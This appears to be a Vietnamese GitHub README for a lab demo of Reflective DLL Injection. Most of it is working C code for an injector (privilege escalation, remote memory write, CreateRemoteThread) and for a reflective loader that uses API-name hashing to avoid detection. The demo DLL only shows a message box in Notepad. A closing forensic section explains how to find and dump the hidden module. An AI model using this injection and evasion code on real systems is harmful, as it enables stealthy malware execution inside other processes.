







# Demo Reflective Dll Injection

## [1] TỔNG QUAN

- Loại dll injection: `Reflective Dll Injection`
- Định nghĩa:
  - Reflective Dll Injection là kỹ thuật nạp một DLL từ bộ nhớ vào tiến trình mà không dùng cơ chế loader chuẩn (LoadLibrary từ file). Nghĩa là bản thân DLL chứa một hàm `ReflectiveLoader`; khi injector chép toàn bộ ảnh DLL vào không gian nhớ của tiến trình và gọi hàm này, `ReflectiveLoader` sẽ tự thực hiện những việc mà Windows loader thường làm như cấp phát vùng ảnh, copy header/section, xử lý relocations, resolve IAT, TLS, rồi gọi `DllMain`. Vì thế DLL có thể được thực thi không cần hiện diện trên đĩa.
  - Reflective và Manual-mapping khá giống nhau và có thể gây nhầm lẫn thì đây là 1 vài sự phân biệt cơ bản nhất:
    | Tiêu chí                       | Reflective DLL Injection                                                                          | Manual Mapping (generic PE mapping)                                                                                          |
    | ------------------------------ | ------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
    | Ai làm loader?                 | **DLL tự làm**: có export `ReflectiveLoader` để tự map chính nó.                                  | **Injector làm**: chương trình tiêm viết toàn bộ logic map PE vào target.                                                    |
    | Cách khởi động                 | Injector chép DLL (raw bytes) vào RAM, gọi `ReflectiveLoader` (thường bằng `CreateRemoteThread`). | Injector tự `VirtualAlloc(Ex)`, copy header/section, **tự** xử lý relocations, IAT, TLS…, rồi nhảy vào entry (`DllMain`/EP). |
    | Phụ thuộc mã trong DLL         | DLL phải được **biên dịch kèm reflective loader** (export bắt buộc).                              | DLL/PE **không cần** sửa—injector có thể map _bất kỳ_ PE hợp lệ.                                                             |
    | Mức độ phức tạp trong injector | Nhẹ: chỉ cần tìm offset `ReflectiveLoader`, ghi vào, và gọi.                                      | Nặng: injector phải implement gần như đầy đủ vai trò loader của Windows.                                                     |
- Cách sử dụng:
  ```
  ReflectiveDllInjection.exe <PID> <DLL_file>
  ```

## [2] PHÂN TÍCH

- Như mình đã phân biệt ở trên, loại dll injection này cần có export ReflectiveLoader để tự map chính nó, nên mình cần phải build 1 file dll dành riêng cho kỹ thuật injection này, đồng thời cũng cần 1 chương trình để load nó vào tiến trình mục tiêu.

### [2.1] Injector

Dưới đây là các bước lần lượt để nạp 1 file dll vào bộ nhớ của tiến trình mục tiêu:

- Mở file và lấy kích thước của dll:

  ```C
  hFile = CreateFileA(cpDllFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
  	printf("Failed to open the dll file\n");
  	return false;
  }
  dwLength = GetFileSize(hFile, NULL);
  if (dwLength == INVALID_FILE_SIZE || dwLength == 0) {
  	printf("Failed to get the dll file size\n");
  	return false;
  }
  ```

- Lưu binary của dll đó vào 1 biến buffer:

  ```C
  lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwLength);
  if (!lpBuffer) {
  	printf("Failed to allocate the heap\n");
  	return false;
  }
  if (ReadFile(hFile, lpBuffer, dwLength, &dwBytesRead, NULL) == FALSE) {
  	printf("Failed to read file to buffer\n");
  	return false;
  }
  ```

- `OpenProcess()` để chuẩn bị nạp buffer vào tiến trình mục tiêu:

  ```C
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
  	priv.PrivilegeCount = 1;
  	priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
  	if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &priv.Privileges[0].Luid))
  		AdjustTokenPrivileges(hToken, FALSE, &priv, 0, NULL, NULL);
  	CloseHandle(hToken);
  }
  hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, dwProcessId);
  if (!hProcess) {
  	printf("Failed to open the target process.\n");
  	return false;
  }
  ```

- Nạp dll trên vào tiến trình:

  ```C
  hModule = LoadRemoteLibraryN(hProcess, lpBuffer, dwLength, NULL);
  if (!hModule) {
  	printf("Failed to inject the dll");
  	return false;
  }
  ```

- Thông thường trong Windows API chỉ có các hàm như `LoadLibrary()`, `LoadLibraryA()`, `LoadLibraryEx()`. Tuy nhiên, để dll này có thể ẩn mình tốt hơn, mình đã tự custom 1 hàm LoadLibrary được lưu trong thư viện [LoadLibraryN](LoadLibraryN.cpp).
- Thư viện tự custom này thực hiện:

  - Lấy offset của hàm `ReflectiveLoader()` trong dll

    ```C
    dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpBuffer);
    if (!dwReflectiveLoaderOffset) {
    	printf("Error GetReflectiveLoaderOffset!\n");
    	return NULL;
    }
    ```

  - Sau đó cấp phát cho nó 1 vùng nhớ trong tiến trình mục tiêu

    ```C
    lpRemoteLibraryBuffer = VirtualAllocEx(hProcess, NULL, dwLength, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!lpRemoteLibraryBuffer) {
    	printf("Error VirtualAllocEx!\n");
    	return NULL;
    }
    ```

  - Cuối cùng ghi nó vào vùng nhớ được cấp phát rồi tạo cho nó 1 thread mới

    ```C
    if (!WriteProcessMemory(hProcess, lpRemoteLibraryBuffer, lpBuffer, dwLength, NULL)) {
    	printf("Error WriteProcessMemory!\n");
    	return NULL;
    }

    lpReflectiveLoader = (LPTHREAD_START_ROUTINE)((ULONG_PTR)lpRemoteLibraryBuffer + dwReflectiveLoaderOffset);

    hThread = CreateRemoteThread(hProcess, NULL, 1024 * 1024, lpReflectiveLoader, lpParameter, (DWORD)NULL, &dwThreadId);
    ```

### [2.2] Reflective Dll

- Dll này không có gì quá đặc biệt, nó chỉ đơn giản là hiển thị MessageBox với nội dung được thêm sẵn, đồng thời thực hiện các hành vi trong đó với case `DLL_PROCESS_ATTACH`

  ```C
  BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                      )
  {
      BOOL bReturnValue = TRUE;
      switch (ul_reason_for_call)
      {
      case DLL_PROCESS_ATTACH:
          hAppInstance = hModule;
          MessageBoxA(NULL, "Injected to this process!", "Reflective Dll Injection", MB_OK);
          break;
      case DLL_THREAD_ATTACH:
      case DLL_THREAD_DETACH:
      case DLL_PROCESS_DETACH:
          break;
      }
      return TRUE;
  }
  ```

- Tuy nhiên, để nó thực hiện được việc "reflective", nó sẽ cần được build chung với 1 đoạn code [ReflectiveLoader](../ReflectiveDll/ReflectiveLoader.cpp). Dưới đây là phân tích về đoạn code ReflectiveLoader này:

  - Định nghĩa 1 số tên hàm bằng mã hash và 1 số struct một cách thủ công: [ReflectiveLoader.h](../ReflectiveDll/ReflectiveLoader.h). Định nghĩa 1 số struct để tránh trường hợp sử dụng một số struct bị lỗi vì không tìm thấy trong thư viện được import, đồng thời định nghĩa 1 số mã hash để tránh bị phát hiện và gây khó khăn trong quá trình phân tích.
  - Bước 0: Lấy base address của chính dll này:

    ```C
    uiLibraryAddress = caller();

    while (TRUE)
    {
        if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE)
        {
            uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
            if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024)
            {
                uiHeaderValue += uiLibraryAddress;
                if (((PIMAGE_NT_HEADERS)uiHeaderValue)->Signature == IMAGE_NT_SIGNATURE)
                    break;
            }
        }
        uiLibraryAddress--;
    }
    ```

    - Hàm `caller()` được khai báo:

      ```C
      __declspec(noinline) ULONG_PTR caller(VOID) { return (ULONG_PTR)_ReturnAddress(); }
      ```

      Hàm này trả về địa chỉ của chỗ nó được call. Sau đó sử dụng vòng lặp để tìm ngược lại base address trong tiến trình cho tới khi thấy DOS Header ('MZ') thì dừng lại.

  - Bước 1: Từ danh sách các dll được nạp vào tiến trình

    - Tìm `kernel32.dll`, từ dll này, resolve các hàm API `LoadLibraryA()`, `GetProcAddress()`, `VirtualAlloc()` để chuẩn bị cho bước nạp dll vào tiến trình.

      ```C
      if ((DWORD)uiValueC == KERNEL32DLL_HASH)
      {
          uiBaseAddress = (ULONG_PTR)((PLDR_DATA_TABLE_ENTRY)uiValueA)->DllBase;
          uiExportDir = uiBaseAddress + ((PIMAGE_DOS_HEADER)uiBaseAddress)->e_lfanew;
          uiNameArray = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiExportDir)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
          uiExportDir = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiNameArray)->VirtualAddress);
          uiNameArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNames);
          uiNameOrdinals = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNameOrdinals);
          usCounter = 3;
          while (usCounter > 0)
          {
              dwHashValue = hash((char*)(uiBaseAddress + DEREF_32(uiNameArray)));
              if (dwHashValue == LOADLIBRARYA_HASH || dwHashValue == GETPROCADDRESS_HASH || dwHashValue == VIRTUALALLOC_HASH)
              {
                  uiAddressArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfFunctions);
                  uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(DWORD));
                  if (dwHashValue == LOADLIBRARYA_HASH)
                      pLoadLibraryA = (LOADLIBRARYA)(uiBaseAddress + DEREF_32(uiAddressArray));
                  else if (dwHashValue == GETPROCADDRESS_HASH)
                      pGetProcAddress = (GETPROCADDRESS)(uiBaseAddress + DEREF_32(uiAddressArray));
                  else if (dwHashValue == VIRTUALALLOC_HASH)
                      pVirtualAlloc = (VIRTUALALLOC)(uiBaseAddress + DEREF_32(uiAddressArray));
                  usCounter--;
              }
              uiNameArray += sizeof(DWORD);
              uiNameOrdinals += sizeof(WORD);
          }
      }
      ```

    - Tìm `ntdll.dll`, từ dll này, resolve API `FlushInstructionCache()` để làm mới bộ đệm lệnh cho tiến trình đích (đảm bảo CPU sẽ lấy mã lệnh mới nhất sau khi vừa ghi/chỉnh sửa code trong RAM).

      ```C
      if ((DWORD)uiValueC == NTDLLDLL_HASH)
      {
          uiBaseAddress = (ULONG_PTR)((PLDR_DATA_TABLE_ENTRY)uiValueA)->DllBase;

          uiExportDir = uiBaseAddress + ((PIMAGE_DOS_HEADER)uiBaseAddress)->e_lfanew;

          uiNameArray = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiExportDir)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];

          uiExportDir = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiNameArray)->VirtualAddress);

          uiNameArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNames);

          uiNameOrdinals = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNameOrdinals);

          usCounter = 1;

          while (usCounter > 0)
          {
              dwHashValue = hash((char*)(uiBaseAddress + DEREF_32(uiNameArray)));

              if (dwHashValue == NTFLUSHINSTRUCTIONCACHE_HASH)
              {
                  uiAddressArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfFunctions);

                  uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(DWORD));

                  if (dwHashValue == NTFLUSHINSTRUCTIONCACHE_HASH)
                      pNtFlushInstructionCache = (NTFLUSHINSTRUCTIONCACHE)(uiBaseAddress + DEREF_32(uiAddressArray));

                  usCounter--;
              }

              uiNameArray += sizeof(DWORD);

              uiNameOrdinals += sizeof(WORD);
          }
      }
      ```

  - Bước 2: Nạp reflective dll đó vào vị trí được cấp phát trong vùng nhớ

    ```C
    uiHeaderValue = uiLibraryAddress + ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
    uiBaseAddress = (ULONG_PTR)pVirtualAlloc(NULL, ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfImage, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    uiValueA = ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfHeaders;
    uiValueB = uiLibraryAddress;
    uiValueC = uiBaseAddress;
    while (uiValueA--)
        *(BYTE*)uiValueC++ = *(BYTE*)uiValueB++;
    ```

  - Bước 3: Nạp tất cả các section của dll vào tiến trình mục tiêu

    ```C
    uiValueA = ((ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader + ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.SizeOfOptionalHeader);

    uiValueE = ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.NumberOfSections;
    while (uiValueE--)
    {
        uiValueB = (uiBaseAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->VirtualAddress);

        uiValueC = (uiLibraryAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->PointerToRawData);

        uiValueD = ((PIMAGE_SECTION_HEADER)uiValueA)->SizeOfRawData;

        while (uiValueD--)
            *(BYTE*)uiValueB++ = *(BYTE*)uiValueC++;

        uiValueA += sizeof(IMAGE_SECTION_HEADER);
    }
    ```

  - Bước 4: Duyệt qua tất cả các hàm được import (IAT)

    ```C
    uiValueB = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];

    uiValueC = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiValueB)->VirtualAddress);

    while (((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->Name)
    {
        uiLibraryAddress = (ULONG_PTR)pLoadLibraryA((LPCSTR)(uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->Name));

        uiValueD = (uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->OriginalFirstThunk);

        uiValueA = (uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->FirstThunk);

        while (DEREF(uiValueA))
        {
            if (uiValueD && ((PIMAGE_THUNK_DATA)uiValueD)->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            {
                uiExportDir = uiLibraryAddress + ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;

                uiNameArray = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiExportDir)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];

                uiExportDir = (uiLibraryAddress + ((PIMAGE_DATA_DIRECTORY)uiNameArray)->VirtualAddress);

                uiAddressArray = (uiLibraryAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfFunctions);

                uiAddressArray += ((IMAGE_ORDINAL(((PIMAGE_THUNK_DATA)uiValueD)->u1.Ordinal) - ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->Base) * sizeof(DWORD));

                DEREF(uiValueA) = (uiLibraryAddress + DEREF_32(uiAddressArray));
            }
            else
            {
                uiValueB = (uiBaseAddress + DEREF(uiValueA));

                DEREF(uiValueA) = (ULONG_PTR)pGetProcAddress((HMODULE)uiLibraryAddress, (LPCSTR)((PIMAGE_IMPORT_BY_NAME)uiValueB)->Name);
            }
            uiValueA += sizeof(ULONG_PTR);
            if (uiValueD)
                uiValueD += sizeof(ULONG_PTR);
        }

        uiValueC += sizeof(IMAGE_IMPORT_DESCRIPTOR);
    }
    ```

  - Bước 5: Xử lý bảng relocation của dll

    ```C
    uiLibraryAddress = uiBaseAddress - ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase;

    uiValueB = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

    if (((PIMAGE_DATA_DIRECTORY)uiValueB)->Size)
    {
        uiValueC = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiValueB)->VirtualAddress);

        while (((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock)
        {
            uiValueA = (uiBaseAddress + ((PIMAGE_BASE_RELOCATION)uiValueC)->VirtualAddress);

            uiValueB = (((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);

            uiValueD = uiValueC + sizeof(IMAGE_BASE_RELOCATION);

            while (uiValueB--)
            {
                if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_DIR64)
                    *(ULONG_PTR*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += uiLibraryAddress;
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_HIGHLOW)
                    *(DWORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += (DWORD)uiLibraryAddress;
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_HIGH)
                    *(WORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += HIWORD(uiLibraryAddress);
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_LOW)
                    *(WORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += LOWORD(uiLibraryAddress);

                uiValueD += sizeof(IMAGE_RELOC);
            }

            uiValueC = uiValueC + ((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock;
        }
    }
    ```

  - Bước 6: Call hàm `DllMain()` hay chính là entry point của dll

    ```C
    uiValueA = (uiBaseAddress + ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.AddressOfEntryPoint);
    pNtFlushInstructionCache((HANDLE)-1, NULL, 0);
    #ifdef REFLECTIVEDLLINJECTION_VIA_LOADREMOTELIBRARYN
        ((DLLMAIN)uiValueA)((HINSTANCE)uiBaseAddress, DLL_PROCESS_ATTACH, lpParameter);
    #else
        ((DLLMAIN)uiValueA)((HINSTANCE)uiBaseAddress, DLL_PROCESS_ATTACH, NULL);
    #endif
    ```

## [3] KẾT QUẢ KHI CHẠY CHƯƠNG TRÌNH

- Tìm PID của tiến trình `Notepad.exe`:

  

- Chạy injector theo command: `ReflectiveDllInjection.exe <PID> <Dll File>`

  

- Kết quả khi run command:

  

## [4] ĐIỀU TRA SỐ

- Kiểm tra sự hiện diện trong Process Hacker:

  - Kiểm tra tab `Modules` không thấy sự hiện diện của dll `ReflectiveDll.dll`:

    

  - Điều đó có nghĩa là nó đã được ẩn giấu 1 cách cẩn thận hơn.
  - Tuy nhiên, để nó hiển thị được messagebox thì chắc chắn nó phải có sự hiện diện trong tiến trình, vì thế mình đã kiểm tra nó trong tab `Memory`
  - Mục tiêu: Đọc những nội dung tại các vùng nhớ có kiểu là Private: Commit có quyền truy cập `X`, bởi ảnh nạp thật sẽ là `MEM_IMAGE`; reflective map thường nằm trong `MEM_PRIVATE` / `MEM_COMMIT`.

    

  - Ở ảnh trên có thể thấy có 2 vùng nhớ có kích thước khá lớn nên khá đáng nghi. Vì thế mình sẽ dump thử để xem nó có hành vi gì.

    - Cả 2 vùng nhớ này (12 bytes và 32 bytes) đều có cấu trúc của PE file:

      

      

- Sau khi dump thử ra file .bin, mình tiến hành phân tích thử xem nó có phải là file dll mà mình đã build và nạp vào tiến trình hay không.
- Đầu tiên, mình thả file này vào công cụ DIE để có những đánh giá ban đầu:

  

- DIE đã phát hiện đây là 1 file dll được compile bằng C/C++ và build bởi Visual Studio 2022.
- Vì file dll mình build chỉ có kích thước 12KB nên mình đã thử mở cả file dll và file binary 12KB dump được bằng công cụ HxD để đối chiếu thì thấy 1 số đoạn của chúng khá giống nhau:

  

  

## [5] PHỤ LỤC

- Injector: [Injector](main.cpp)
- Dll: [Reflective Dll](../ReflectiveDll/dllmain.cpp)
- Loader: [ReflectiveLoader](../ReflectiveDll/ReflectiveLoader.cpp)
- Nguồn tham khảo: [Reflective Dll Injection](https://github.com/stephenfewer/ReflectiveDLLInjection/tree/master)
